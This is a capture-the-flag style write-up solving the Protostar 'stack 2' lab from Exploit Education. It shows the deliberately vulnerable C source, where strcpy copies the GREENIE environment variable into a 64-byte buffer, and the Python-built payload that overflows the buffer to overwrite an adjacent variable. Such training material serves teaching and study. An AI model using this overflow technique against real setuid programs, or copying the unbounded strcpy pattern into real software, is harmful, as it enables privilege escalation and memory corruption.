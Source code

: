 ```yaml
---
title: "protostar - stack 2"
classes: wide
tag: 
  - "buffer overflow"
header:
  teaser: /assets/images/binary-exploitation/binexp.png
ribbon: red
description: "Solution for stack two from Protostar in Exploit Education Series"
categories:
  - Binary Exploitation
---
```


Lets check the file type of our binary,

```c
$ file stack2
stack2: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.18, not stripped
```

Lets try running it,

```c
$ ./stack2
stack2: please set the GREENIE environment variable

```

Lets view the source code for proper understanding,

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

To pass this program we need to overwrite the ```modified``` with ```0x0d0a0d0a```

This challenge is almost similar to the previous one

We need to craft an environment variable ```GREENIE``` which is being stored in ```variable```

```c
variable = getenv("GREENIE");
```

Lets set an ```env``` variable named ```GREENIE```

```c
$ export GREENIE=AAAABBBBCCCCDDDD
$ ./stack2
Try again, you got 0x00000000
$ echo $GREENIE
AAAABBBBCCCCDDDD
```

Now we have to overwrite it, but we need to use ```GREENIE``` for it because,

```c
strcpy(buffer, variable);
```

```strcpy``` is used to copy the ```variable``` (Data from ```GREENIE```) into ```buffer```

Since ```strcpy``` can be used to overflow, because this vulnerable functions doesn't use memory boundaries

We need ```64 bytes``` of data to overwrite the ```modified``` variable

Lets try to overwrite it with random junk,

```c
$ export GREENIE=$(python -c "print('A'*64+'BBBB')")
$ echo $GREENIE
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
$ ./stack2
Try again, you got 0x42424242
```

Lets exploit it,

```c
$ export GREENIE=$(python -c "print('A'*64+'\x0a\x0d\x0a\x0d')")
$ ./stack2
you have correctly modified the variable
```

Done! we have completed "stack2"
